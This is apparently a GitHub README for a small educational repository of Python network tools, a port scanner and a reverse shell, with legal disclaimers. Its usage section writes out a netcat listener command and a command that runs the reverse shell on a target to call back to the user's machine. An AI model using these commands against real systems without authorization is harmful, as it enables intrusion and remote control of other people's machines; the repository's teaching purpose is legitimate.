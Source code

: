 # python-network-tools
Welcome to this repository! Here you can find simple network tools written without any external libraries. These tools are designed to be lightweight and serve as practical examples for ethical hacking or educational purposes. 

---

## **Programs Included**

1. **Port Scanner**  
   A straightforward port scanner capable of identifying open ports on a target machine. It's implemented entirely without the use of external libraries, making it portable and easy to understand for beginners.

2. **Reverse Shell**  
   A minimalistic reverse shell implementation, also built without external dependencies. It can be used to simulate remote access in controlled environments or as part of ethical hacking exercises.

---

## **Key Features**

- No external libraries required.
- Lightweight and easy to understand.
- Useful for **educational purposes** and for learning the basics of networking and hacking.

---

## **Important Disclaimer**

These tools are developed for **educational purposes only**. Unauthorized use on systems that you do not own or do not have explicit permission to test is illegal.  
The creators of this repository do not take responsibility for any misuse of the tools. Always ensure that you are working in a legal and ethical manner when performing testing or demonstrations.

---

## **How to Use**

### Port Scanner
```bash
python port-scanner.py
```
The scanner works in interactive mode.

### Reverse Shell
**Bind the reverse shell server on your machine:**
```bash
nc -lnvp <listener_port>
```

**Run the reverse sheel on your target machine:**
```bash
python reverse-shell-on-target.py <your_machine_ip> <listener_port>
```

---

## **Use Cases**

- **Educational Purposes**: Learn the basics of networking, open ports, and remote shells.
- **Ethical Hacking**: Test your own systems or systems where you have **explicit permission** to perform penetration testing.
- **Codeless Understanding**: Study the fundamental implementation of some common hacking techniques without relying on bulky dependencies.

---

## **Legal Warning**

Unauthorized scanning of ports or connecting to systems without permission is considered illegal in most jurisdictions. Use these tools responsibly, and **always ensure you have explicit permission** before testing any system. These tools are meant for educational purposes and ethical hacking within controlled environments.

---

## **Future Improvements**

- Adding more advanced scanning techniques (e.g., multi-threading).
- Improving reverse shell security features.
- Introducing more detailed logging functionality.
